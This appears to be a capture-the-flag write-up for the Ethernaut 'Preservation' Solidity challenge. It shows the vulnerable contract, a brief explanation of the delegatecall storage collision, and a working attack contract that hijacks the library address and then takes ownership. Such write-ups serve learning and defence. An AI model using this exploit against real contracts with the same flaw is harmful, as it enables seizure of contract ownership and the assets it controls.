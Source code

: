 

## Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```
## Solution

We see the storage of LibraryContract and Preservation does not match , but the Preservation delegatecall the LibrayContract , so it will make some storage Collision problem . 

we can see in `Preservation::setFirstTime` delegatecall setTime , and it effect the `slot0` in Preservation , so we can build a attack contract and call setFirstTime to make the `address public timeZone1Library` equals `attacker's address` , then we call it again change the owner.
```solidity title="Hack.sol"
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.10;

interface IPreservation {
    function setFirstTime(uint256) external;
}

contract PreservationHack {
    // Same storage layout as contract to be attacked
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;

    IPreservation public challenge;

    constructor(address challengeAddress) {
        challenge = IPreservation(challengeAddress);
    }

    function setTime(uint256 _addr) external {
        owner = address(uint160(_addr));
    }

    function attack() external {
        challenge.setFirstTime(uint256(uint160(address(this))));
        challenge.setFirstTime(uint256(uint160(msg.sender)));
    }
}
```
